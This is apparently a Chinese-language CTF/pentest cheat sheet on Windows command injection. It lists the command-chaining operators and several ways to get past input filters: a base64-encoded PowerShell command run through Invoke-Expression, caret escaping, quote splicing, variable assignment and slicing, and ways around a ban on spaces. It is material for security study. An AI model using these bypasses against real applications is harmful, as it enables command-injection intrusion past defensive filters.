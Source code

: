 ```shell
#     f = f+j
#     print(f)
```





## Win

### 多条命令执行

| &    | 用于连接多个命令，按顺序执行                               |
| ---- | ---------------------------------------------------------- |
| &&   | 用于连接多个命令，只有前一个命令成功执行后才执行下一个命令 |
| \|   | 用于将一个命令的输出作为另一个命令的输入                   |
| \|\| | 用于连接多个命令，只要前一个命令执行失败，就执行下一个命令 |

### 绕过特殊内容

一些情况下，会禁止出现一些指定内容，如CTF时的`flag`字段等，如果不能用通配符，那么可以尝试使用编码方式来绕过

```shell
powershell -command "$decodedCommand = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String('Y2F0IC9mbGFnCg==')); Invoke-Expression $decodedCommand"
```

也可以使用防转义的方式来绕过

```shell
type test.t^x^t
```

还可以使用拼接的方式绕过

```shell
type t"es"t.tx""t
```

还可以使用赋值变量的方式来绕过

```shell
set a=type&&set b=test.txt&&%a% %b%
```

如果禁止了`%\w%`，那么还可以用切割的方式来绕过

```shell
set a=type&&set b=test.txt&&%a:~0% %b%
```

### 绕过空格

一些情况下，会禁止在命令中使用空格，那么可以用如下几种方式来绕过

```shell
type.\test.txt
type,test.txt
```

